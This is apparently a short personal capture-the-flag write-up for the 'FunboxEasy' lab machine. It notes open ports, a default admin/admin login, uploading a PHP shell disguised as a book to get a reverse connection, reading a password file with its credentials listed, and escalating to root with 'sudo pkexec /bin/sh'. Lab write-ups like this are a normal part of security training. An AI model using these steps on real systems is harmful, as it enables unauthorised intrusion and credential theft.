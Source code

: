 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# FunboxEasy
# 26/1/2023

----------------------------------------------------
# nmap / exploitation
----------------------------------------------------
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


http://192.168.62.111/store/admin.php
admin
admin


upload php shell as book and take reverse connection
http://192.168.62.111/store/bootstrap/img/

cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
sudo pkexec /bin/sh
```

